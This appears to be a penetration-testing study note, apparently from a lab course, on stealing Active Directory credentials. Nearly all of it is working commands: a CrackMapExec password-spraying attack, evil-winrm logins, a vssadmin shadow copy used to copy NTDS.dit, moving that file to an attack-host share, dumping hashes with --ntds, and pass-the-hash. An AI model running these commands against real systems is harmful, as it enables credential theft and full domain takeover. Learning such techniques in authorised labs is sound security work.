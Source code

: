 #windows/auth/AD/NTDS
# Dictionary Attacks against AD accounts using #CrackMapExec
```bash
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
 ```
# Capturing NTDS.dit
NT Directory Services (NTDS) is the directory service used with AD to find & organize network resources. Recall that NTDS.dit file is stored at %systemroot%/ntds on the domain controllers in a forest. The .dit stands for directory information tree. This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information.
### Connecting to a DC with #evil-winrm 
```bash
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```
### Checking Local Group Membership
```
*Evil-WinRM* PS C:\> net localgroup
```
To make a copy of the NTDS.dit file, we need local admin (Administrators group) or Domain Admin (Domain Admins group) (or equivalent) rights.
### Checking User Account Privileges including Domain
```
*Evil-WinRM* PS C:\> net user bwilliamson
```
### Creating Shadow Copy of C: with vssadmin
```bash
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```
### Copying NTDS.dit from the VSS
```
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
### Transferring NTDS.dit to Attack Host
```
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```
# A Faster Method: Using #CrackMapExec  to Capture NTDS.dit
```bash
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```
# [[Pass the Hash]] with #evil-winrm  Example
If cracking NTDS hash no successfull, we can use hash directly:
```bash
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```
